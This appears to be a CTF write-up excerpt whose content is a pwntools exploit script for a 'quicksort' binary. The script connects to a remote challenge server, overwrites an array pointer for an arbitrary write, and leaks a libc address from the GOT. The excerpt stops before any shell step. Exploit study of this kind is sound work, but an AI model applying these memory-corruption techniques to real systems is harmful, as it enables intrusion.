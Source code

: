 Here's the exploit code:

```
from pwn import *
from time import sleep

local = False

if local:
	p = process('./quicksort')
	DELAY = 0.1
else:
	p = remote('34.92.96.238',10000)
	DELAY = 0.5

if local:
	gdb.attach(p, '''
		break *0x08048901
		continue
		''')

sleep(DELAY)


# Okay, let's write to an arbitary location.
def write_int_to_addr(n, dst):
	p.recvuntil("sort?")
	p.send('1\n')
	p.recvuntil("number:")

	payload = ""
	payload += str(n)
	payload += "A"*(16 - len(str(n)))#7
	payload += p32(0x1) # total n to read in
	payload += p32(0x0) # current index of number to read in
	payload += "B"*4
	payload += p32(dst)
	payload += "\n" # should get replaced with \x00 so terminator canary isn't damaged
	p.send(payload)

def leak_atoi_addr():
	p.recvuntil("sort?")
	p.send('2\n')
	p.recvuntil("number:")
	payload = ""
	payload += str(GOT_FREE_ADDR) # Any old positive number. This will work because libc addresses are negative.
	payload += "A"*(16 - len(str(GOT_FREE_ADDR)))#7
	payload += p32(0x2) # total n to read in
	payload += p32(0x1) # current index of number to read in
	payload += "B"*4
	payload += p32(GOT_ATOI_ADDR)
	payload += "\n" # should get replaced with \x00 so terminator canary isn't damaged
	p.send(payload)
	sleep(DELAY)
	p.recvuntil("result:\n")
	result = p.recvuntil(" ")
	#print("original result is " + str(result) + "\n")
	result = int(result,10) & (2**32-1)
	log.info("leaked libc address is " + str(result) + "\n")
	log.info("which is " + hex(result) + "\n")
	return result

MAIN_ADDR = 0x08048816
```